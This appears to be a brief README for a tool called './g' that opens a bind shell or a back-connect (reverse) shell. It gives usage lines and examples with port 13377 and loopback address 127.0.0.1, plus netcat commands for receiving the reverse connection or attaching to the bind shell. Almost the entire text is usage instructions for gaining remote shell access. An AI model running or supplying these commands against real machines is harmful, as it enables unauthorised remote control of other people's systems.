 ## Commands
```bash
$ ./g
Bind Shell Usage: ./g port
Back Connect Usage: ./g ip port
$
```
## Example Usage
Backconnect:
```bash
$ ./g 127.0.0.1 13377
```
Bind Shell:
```bash
$ ./g 13377
```
## Recieving a Connection with Netcat
Recieving a backconnect:
```bash
$ nc -vlp port
```
Connecting to a bind Shell:
```bash
$ nc host port
```
